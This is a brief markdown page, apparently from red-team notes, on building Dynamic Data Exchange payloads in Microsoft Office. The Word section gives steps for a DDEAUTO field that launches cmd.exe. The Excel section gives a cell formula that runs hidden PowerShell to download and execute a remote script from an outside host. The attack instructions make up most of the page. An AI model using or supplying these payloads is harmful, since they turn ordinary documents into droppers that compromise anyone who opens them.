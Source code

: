 # Dynamic Data Exchange - DDE

***

DDE allows programs to manipulate objects provided by other programs, and respond to user actions affecting those objects

## Create DDE Payload Word

1. open  Microsoft word
2. Insert ---> quick ---> fields
3. Right click text and select toggle field codes
4. Replace  {= \*MERGEFORMLA } with DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" 

## Create DDE Payload Excel

1. open Microsoft Excel 

2. insert below formula in cell
   
   ```powershell
   =cmd|'/c powershell.exe -w hidden IEX (New-Object Net.WebClient).DownloadString(\"http://nooranetred.com/screen.cmd\");start-process screen.cmd'!_xlbgnm.A1
   ```
